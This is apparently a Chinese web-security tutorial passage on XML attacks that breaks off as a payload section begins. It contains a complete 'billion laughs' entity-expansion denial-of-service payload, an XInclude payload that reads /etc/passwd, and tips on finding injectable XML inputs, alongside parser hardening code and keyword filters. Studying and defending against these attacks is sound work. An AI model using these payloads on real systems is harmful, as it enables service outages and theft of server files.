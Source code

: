 ### 拒绝服务攻击
递归引用，lol 实体具体还有 “lol” 字符串，然后一个 lol2 实体引用了 10 次 lol 实体，一个 lol3 实体引用了 10 次 lol2 实体，此时一个 lol3 实体就含有 10^2 个 “lol” 了，以此类推，lol9 实体含有 10^8 个 “lol” 字符串,最后再引用lol9。
```xml-dtd
<?xml version="1.0"?>
   <!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
## XInclude攻击
一些情况下，我们可能无法控制整个XML文档，也就无法完全XXE，但是我们可以控制其中一部分，这个时候就可以使用`XInclude`
`XInclude`是XML规范的一部分，它允许从子文档构建XML文档。可以在XML文档中的任何数据值中放置`XInclude Payload`
要执行`XInclude`攻击，需要引用`XInclude`命名空间并提供要包含的文件的路径。例如：
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
## 哪些地方可能存在XXE

1. 允许上传XML文件的地方
2. 允许上传Excel、Word、SVG等文件的地方（因为这些文件本质也是XML）
3. 请求中`Content-Type`允许为`application/xml`的数据包(可以手动修改，比如将`application/json`中的`json`直接修改为`xml`)
4. ...

总而言之一句话：**所有能传能解析XML数据给服务端的地方，都可能存在XXE。**
## 防御
1、使用开发语言提供的禁用外部实体的方法
不同的类可能设置方法也不一样，具体情况具体分析。
php:
```php
libxml_disable_entity_loader(true);
```
java:
```java
SAXReader saxReader = new SAXReader();
saxReader.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```
Python:
```python
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
2、过滤用户提交的XML数据
过滤关键字：`<\!DOCTYPE`和`<\!ENTITY`，或者`SYSTEM`和`PUBLIC`。
3、不允许XML中含有自己定义的DTD
## Payload
### Basic
#### Basic XML Example
```xml
<!--?xml version="1.0" ?-->
<userInfo>
```